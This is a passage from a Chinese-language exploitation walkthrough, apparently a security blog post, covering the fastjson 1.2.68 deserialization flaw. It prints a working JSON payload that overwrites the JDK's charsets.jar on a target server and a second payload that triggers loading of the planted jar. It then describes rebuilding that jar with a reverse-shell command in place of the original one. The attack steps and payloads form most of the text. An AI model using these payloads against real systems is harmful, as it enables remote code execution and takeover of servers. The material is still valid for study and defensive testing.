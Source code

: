file 参数: 靶机上 jdk 中 charsets.jar 文件所在的完整路径

input 参数: 即上述编码处理后的 jar 包内容

![](https://mmbiz.qpic.cn/mmbiz_png/TezRTl7qZQSsXMIRUplPzFB47g84icv6AkybUCaM3IBnmKR54r5UqUicbbSo61fAFkXFhW75c68Sd1eHEg5GsibOA/640?wx_fmt=png)

**fastjson-1.2.68 版本任意文件写入 poc**

(如下 poc 会将一个名为 charsets.jar 的文件上传到指定的目录, 如果该文件已存在, 将进行覆写.)

```
{"x":{"@type":"java.lang.AutoCloseable","@type":"sun.rmi.server.MarshalOutputStream","out":{"@type":"java.util.zip.InflaterOutputStream","out":{"@type":"java.io.FileOutputStream","file":"/usr/lib/jvm/java-1.8.0-openjdk-1.8.0.282.b08-1.el7_9.x86_64/jre/lib/charsets.jar","append":false},"infl":{"input":"xxx"},"bufLen":1048576},"protocolVersion":1}}
```

**4. 发包, 覆写靶机上 jdk 原本的 charsets.jar 文件**

(建议将源文件先进行备份)

![](https://mmbiz.qpic.cn/mmbiz_png/TezRTl7qZQSsXMIRUplPzFB47g84icv6AAk0stW01MuSBicUp64pnz8c1ehBdV6xe07miagKeIQsF7XWibuxtnfVxg/640?wx_fmt=png)

**charsets.jar 文件被覆写前后比对图**

![](https://mmbiz.qpic.cn/mmbiz_png/TezRTl7qZQSsXMIRUplPzFB47g84icv6AmcCFhLtJDNhZA1pM3icokSWstG0IwWf8ich9BahCe0yiaF98zLgt1y59A/640?wx_fmt=png)

**5. 触发漏洞**

需要注意的是, 同名 jar 包只能主动触发一次, 触发后再次进行覆写, 也不会在加载同名 jar 包.

```
{"x":{"@type":"java.nio.charset.Charset","val":"500"}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/TezRTl7qZQSsXMIRUplPzFB47g84icv6AtC1q5VxmIUswaz8sgMZ7TGuCibjLdJ6mgHPq45zVtX6Gguibf3gNH8UQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/TezRTl7qZQSsXMIRUplPzFB47g84icv6AicpNjnwbB25mfbiaoY0W6kjIrnaZzLHFW0wQ5IM2ruS1FvAVQkS2niaog/640?wx_fmt=png)

**6. 如何修改 jar 包?**

LandGrey 师傅提供了源码, 改下所要执行的命令重新生成恶意 jar 包即可.

详细步骤如下:

IDEA 新建一个名为 charsets 的普通项目

将 spring-boot-upload-file-lead-to-rce-tricks-main\charsets\src 下的两个目录拷贝进 src 目录下.

![](https://mmbiz.qpic.cn/mmbiz_png/TezRTl7qZQSsXMIRUplPzFB47g84icv6ADIRCRwS6g76Lib3gSjuTktj8xElOUMLQsYYhDOWjv7oibZAoxC9DSGhQ/640?wx_fmt=png)

看下 IBM33722.java 文件的源码, 相信这里的代码大家还是都能看懂的.

将 linux 部分中的命令改为反弹 shell 的命令即可.

![](https://mmbiz.qpic.cn/mmbiz_png/TezRTl7qZQSsXMIRUplPzFB47g84icv6AWvo2U3ic237Njxo1kUVUEqDyKX7EH3lWbooWrPTiaia9WSDcBkLXsPicFQ/640?wx_fmt=png)

重新打包成 jar 包.
